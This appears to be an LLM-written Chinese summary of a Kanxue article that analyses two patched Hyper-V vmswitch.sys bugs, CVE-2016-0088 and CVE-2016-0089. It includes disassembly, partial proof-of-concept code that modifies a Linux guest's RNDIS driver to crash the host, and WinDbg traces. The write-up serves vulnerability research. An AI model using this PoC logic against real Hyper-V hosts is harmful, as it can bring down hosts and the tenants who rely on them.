

# LLM分析 5.md

## 0. 基础信息

```
文章标题：[原创]Hyper-V安全从0到1(5)
作者/来源：看雪安全社区 / ID: ifyou
发布时间：2017-11-11
分析时间：2026-04-26
技术领域标签：Hyper-V虚拟化安全、Windows内核漏洞、vmswitch.sys、CVE-2016-0088、CVE-2016-0089
原文链接：https://bbs.kanxue.com/thread-222692.htm
```

---

## 1. 总体摘要

**第1段（CVE-2016-0088介绍）**：介绍Google Project Zero发现的Hyper-V漏洞CVE-2016-0088，位于vmswitch.sys组件，可导致宿主机内核崩溃（DOS），影响Windows Server 2012 R2未打补丁版本。

**第2段（漏洞分析）**：详细分析vmswitch!VmsMpCommonPvtHandleMulticastOids函数中的越界写漏洞，通过两次调用该函数，利用整数除法检查缺陷，实现5字节堆溢出，破坏POOL_HEADER导致蓝屏。

**第3段（PoC编写）**：使用Linux作为虚拟机系统，通过修改Linux内核驱动代码（rndis_filter.c）实现PoC，连续发送两次RNDIS消息触发漏洞。

**第4段（调试过程）**：使用WinDbg在关键位置设置断点，观察memmove执行前后的内存变化，验证5字节溢出破坏了相邻堆块的POOL_HEADER。

**第5段（CVE-2016-0089介绍）**：介绍同由Google Project Zero发现的另一个Hyper-V漏洞CVE-2016-0089，同样位于vmswitch.sys，属于越界读漏洞。

**第6段（漏洞分析）**：分析vmswitch!VmsVmNicHandleRssParametersChange函数，两处memmove调用未检查Src参数是否越界，通过控制rssp->indirect_taboffset或rssp->kashkey_offset实现越界读。

**第7段（PoC与调试）**：同样通过修改Linux内核驱动实现PoC，设置rssp->indirect_taboffset = 0x80808080，在WinDbg中验证可控偏移导致读到未初始化内存区域，触发BugCheck。

**第8段（总结）**：总结两个漏洞成因简单（缺少边界检查），但危害严重，说明Hyper-V产品存在类似安全问题，可能还存在更严重的虚拟机逃逸漏洞。

**总结**：该文章是Hyper-V安全研究系列的第5篇，详细分析了两个由Google Project Zero发现的Hyper-V漏洞（CVE-2016-0088和CVE-2016-0089），从漏洞原理分析、PoC编写到调试验证进行了完整的技术路线展示。文章通过IDA逆向分析vmswitch.sys驱动，结合Linux内核驱动修改实现PoC，使用WinDbg进行内核调试，展示了Hyper-V虚拟化安全研究的方法论。两个漏洞均源于边界检查缺失，一个为越界写（5字节堆溢出），一个为越界读，均可导致宿主机DOS。



---

## 2. 分段详解

### 5. CVE-2016-0088的分析、触发、调试

#### 5.1 漏洞分析

本段讲述了CVE-2016-0088漏洞的实现机制。漏洞位于vmswitch.sys驱动中的`VmsMpCommonPvtHandleMulticastOids`函数，利用了两次调用该函数时的状态不一致问题。

**漏洞原理**：
- 第一次调用时，分配大小为`set->info_buflen`的内存，保存地址到`[rbx+0xEE0h]`，保存`set->info_buflen/6`到`[rbx+0xEE8h]`
- 第二次调用时，检查`set->info_buflen/6`是否与第一次相等（整数除法特性：60/6=10, 65/6=10）
- 如果第二次的`info_buflen`比第一次大5字节以内（如60→65），检查通过
- 但在`loc_31B2B`处执行`memmove`时，使用第二次的`r14`（即`info_buflen`）作为Size，向第一次分配的buffer拷贝数据，导致5字节溢出

**关键代码分析**：

```asm
; 第一次调用：分配内存
mov     r8d, 'mcMV'     ; Tag
mov     rdx, r14        ; NumberOfBytes = set->info_buflen
mov     ecx, 200h       ; PoolType
call    cs:__imp_ExAllocatePoolWithTag  ; 分配内存
mov     [rbx+0EE0h], r14  ; 保存分配的堆地址
mov     [rbx+0EE8h], ebp  ; 保存 (set->info_buflen)/6

; 第二次调用：检查通过但拷贝溢出
loc_31B2B:
mov     rcx, [rbx+0EE0h] ; Dst - 第一次分配的buffer
mov     r8, r14         ; Size - 第二次的info_buflen (比第一次大5)
mov     rdx, r15        ; Src
call    memmove         ; 5字节溢出，破坏下一个堆块的POOL_HEADER
```

**POOL_HEADER结构**（Windows内核内存管理）：

```c
typedef struct _POOL_HEADER{
    union{
        struct{
            ULONG32 PreviousSize : 8;  // 被覆盖
            ULONG32 PoolIndex : 8;     // 被覆盖
            ULONG32 BlockSize : 8;     // 被覆盖
            ULONG32 PoolType : 8;      // 被覆盖
        };
        ULONG32 Ulong1;
    };
    ULONG32 PoolTag;                   // 部分被覆盖
    // ...
} POOL_HEADER, *PPOOL_HEADER;
```

漏洞覆盖了POOL_HEADER的前5个字节，导致释放内存时内核抛出异常（BAD_POOL_HEADER, BugCheck 0x19）。

---

#### 5.2 PoC编写与漏洞触发

本段讲述了PoC的实现机制。实现过程使用了修改Linux内核驱动的方式，利用了Hyper-V Linux集成服务（Hyper-V Linux Integration Services）的RNDIS（Remote NDIS）通信协议。

**前置条件**：
1. Linux内核版本4.7.2（可修改内核）
2. 修改`./linux-4.7.2/drivers/net/hyperv/rndis_filter.c`文件
3. Windows Server 2012 R2 Standard x64（未打补丁）作为宿主机

**PoC核心逻辑**：

```c
// 修改原有函数，添加溢出触发调用
static int rndis_filter_query_device_mac(struct rndis_device *dev)
{
    u32 size = ETH_ALEN;
    rndis_pool_overflow(dev);  // 添加的触发语句
    return rndis_filter_query_device(dev,
        RNDIS_OID_802_3_PERMANENT_ADDRESS,
        dev->hw_mac_adr, &size);
}

// 新增漏洞触发函数
static int rndis_pool_overflow(struct rndis_device *rdev)
{
    u32 extlen = 16 * 6;  // 96字节
    
    // 第一次请求：info_buflen = 96
    request = get_rndis_request(rdev, RNDIS_MSG_SET,
        RNDIS_MESSAGE_SIZE(struct rndis_set_request) + extlen);
    set = &request->request_msg.msg.set_req;
    set->oid = 0x01010209;  // OID_802_3_MULTICAST_LIST
    set->info_buflen = extlen;  // 96
    rndis_filter_send_request(rdev, request);
    // ...等待完成
    
    // 第二次请求：info_buflen = 101 (96+5)
    request = get_rndis_request(rdev, RNDIS_MSG_SET,
        RNDIS_MESSAGE_SIZE(struct rndis_set_request) + extlen + 5);
    set->info_buflen = extlen + 5;  // 101
    // 发送后触发5字节溢出
}
```

**触发流程**：
1. 重新编译Linux内核并启动虚拟机
2. Linux系统正常启动（溢出已发生但未触发）
3. 关闭虚拟机时，Windows内核回收被溢出的内存
4. 触发BAD_POOL_HEADER蓝屏

---

#### 5.3 调试

本段讲述了使用WinDbg进行内核调试验证漏洞的过程。实现过程使用了内核调试器断点、内存查看等技术。

**调试步骤**：

```windbg
; 在memmove调用处设置断点
3: kd> bp vmswitch!VmsMpCommonPvtHandleMulticastOids+0x144f8
3: kd> g

; 断点命中，查看memmove前内存
3: kd> db rcx-10
ffffe001`7501d950  10 00 07 02 56 4d 63 6d-33 eb 5f 64 e6 5b 43 5e ....VMcm3._d.[C^
ffffe001`7501d960  48 48 48 48 48 48 48 48-48 48 48 48 48 48 48 48 HHHHHHHHHHHHHHHH
; ... 数据区域 ...
ffffe001`7501d9c0  07 00 08 04 45 76 65 6e-a3 eb 5f 64 e6 5b 43 5e ....Even.._d.[C^
; ^^^^ 下一个堆块的POOL_HEADER (0x07=PreviousSize, 0x00=PoolIndex, 0x08=BlockSize, 0x04=PoolType, 0x456e6545=PoolTag "Even")

; 单步执行memmove后
3: kd> p
3: kd> db ffffe001`7501d950
; ... 数据被填充为0x49 ('I') ...
ffffe001`7501d9c0  49 49 49 49 49 76 65 6e-a3 eb 5f 64 e6 5b 43 5e IIIIIven.._d.[C^
; ^^^^^ 前5字节被覆盖，POOL_HEADER被破坏
```

**BugCheck输出**：

```windbg
BAD_POOL_HEADER (19)
The pool is already corrupt at the time of the current request.
Arg1: 0000000000000020, a pool block header size is corrupt.
Arg2: ffffe0017501d9c0, The pool entry we were looking for within the page.
Arg3: ffffe0017501de50, The next pool entry.
Arg4: 0000000004494949, (reserved)  ; 0x49 = 'I' 填充字符
```

---

### 6. CVE-2016-0089的分析、触发、调试

#### 6.1 漏洞分析

本段讲述了CVE-2016-0089漏洞的实现机制。漏洞同样位于vmswitch.sys驱动，在`VmsVmNicHandleRssParametersChange`函数中，属于越界读（Out-of-Bounds Read）漏洞。

**漏洞原理**：
- 函数处理RSS（Receive Side Scaling）参数变更请求
- 两处`memmove`调用未验证源地址是否越界：
  1. `offset+0x11C`：拷贝indirect table，Src = rbp + rssp->indirect_taboffset
  2. `offset+0x215`：拷贝hash key，Src = rbp + rssp->kashkey_offset
- 虚拟机可控制`indirect_taboffset`和`kashkey_offset`的值
- 设置大偏移值（如0x80808080）导致读到未映射内存，触发BugCheck

**关键代码**：

```asm
; 第一处越界读
VmsVmNicHandleRssParametersChange+11C:
mov     edx, [rbp+10h]  ; rssp->indirect_taboffset (可控)
movzx   r13d, r15w
lea     r12, [rsi+294h] ; Dst
mov     r8d, r13d
add     rdx, rbp        ; Src = rbp + offset (可能越界)
mov     rcx, r12
shl     r8, 2           ; Size
call    memmove         ; 越界读

; 第二处越界读
VmsVmNicHandleRssParametersChange+215:
mov     edx, [rbp+18h]  ; rssp->kashkey_offset (可控)
movzx   r8d, word ptr [rbp+14h]
lea     rbx, [rsi+497h]
add     rdx, rbp        ; Src = rbp + offset
mov     rcx, rbx
call    memmove         ; 越界读
```

---

#### 6.2 PoC编写与漏洞触发

本段讲述了PoC的实现机制。实现过程同样使用了修改Linux内核驱动的方式。

**PoC核心逻辑**：

```c
static int rndis_pool_overflow(struct rndis_device *rdev)
{
    u32 extlen = sizeof(struct ndis_recv_scale_param) + 
                 4*ITAB_NUM + HASH_KEYLEN;
    
    request = get_rndis_request(rdev, RNDIS_MSG_SET,
        RNDIS_MESSAGE_SIZE(struct rndis_set_request) + extlen);
    
    set = &request->request_msg.msg.set_req;
    set->oid = OID_GEN_RECEIVE_SCALE_PARAMETERS;
    
    rssp = (struct ndis_recv_scale_param *)(set + 1);
    rssp->hdr.type = NDIS_OBJECT_TYPE_RSS_PARAMETERS;
    rssp->hdr.rev = NDIS_RECEIVE_SCALE_PARAMETERS_REVISION_2;
    rssp->indirect_tabsize = 4*ITAB_NUM;
    rssp->indirect_taboffset = 0x80808080;  // 关键：设置大偏移触发越界读
    rssp->hashkey_size = HASH_KEYLEN;
    rssp->kashkey_offset = rssp->indirect_taboffset + rssp->indirect_tabsize;
    
    rndis_filter_send_request(rdev, request);
    // ...
}
```

---

#### 6.3 调试

本段讲述了使用WinDbg验证越界读漏洞的过程。

**调试验证**：

```windbg
3: kd> bp vmswitch!VmsVmNicHandleRssParametersChange+11c
3: kd> g

; 断点命中，查看寄存器
0: kd> r edx
edx=80808080  ; 可控的offset值

0: kd> r rbp
rbp=ffffe00102c48220  ; 基地址

0: kd> p
0: kd> r rdx
rdx=ffffe001834502a0  ; Src = rbp + 0x80808080 = 越界地址

0: kd> db rdx
ffffe001`834502a0  ?? ?? ?? ?? ?? ?? ?? ??-?? ?? ?? ?? ?? ?? ?? ??  ????????????????
; ^^^^ 未初始化的内存区域（??表示无法读取）

0: kd> g
*** Fatal System Error: 0x000000d1  ; DRIVER_IRQL_NOT_LESS_OR_EQUAL
(0xFFFFE001834502A0,...)  ; 访问非法地址
```

---

#### 6.4 总结

本段总结了文章的核心观点：
- 两个漏洞成因简单：缺少边界检查
- 但危害严重：可导致宿主机DOS，影响云系统稳定性
- 说明Hyper-V产品存在类似安全问题，可能存在更严重的虚拟机逃逸漏洞
- 作者还提及了在vmuidevices.dll（用户态组件）中发现的另一个漏洞

---

## 3. 技术要点总结

| 项目 | CVE-2016-0088 | CVE-2016-0089 |
|------|---------------|---------------|
| 漏洞类型 | 越界写（堆溢出） | 越界读 |
| 受影响组件 | vmswitch.sys | vmswitch.sys |
| 漏洞函数 | VmsMpCommonPvtHandleMulticastOids | VmsVmNicHandleRssParametersChange |
| 根因 | 两次调用间未同步buffer大小检查 | memmove未验证Src地址合法性 |
| 利用方式 | 整数除法特性绕过检查，5字节溢出 | 控制offset参数指向非法内存 |
| 攻击向量 | RNDIS协议OID_802_3_MULTICAST_LIST | RNDIS协议OID_GEN_RECEIVE_SCALE_PARAMETERS |
| 影响 | 破坏POOL_HEADER，宿主机蓝屏 | 读取非法内存，宿主机BugCheck |
| 发现者 | Google Project Zero | Google Project Zero |

## 4. 研究方法论

文章展示了Hyper-V安全研究的典型方法：

1. **漏洞定位**：通过IDA Pro逆向分析vmswitch.sys驱动
2. **原理分析**：跟踪数据流，识别边界检查缺失点
3. **PoC开发**：修改Linux内核驱动（利用Hyper-V Linux Integration Services）
4. **调试验证**：使用WinDbg进行内核级调试，观察内存状态变化
5. **漏洞分类**：根据漏洞成因（OOB Write/Read）和影响（DOS/潜在RCE）进行评估
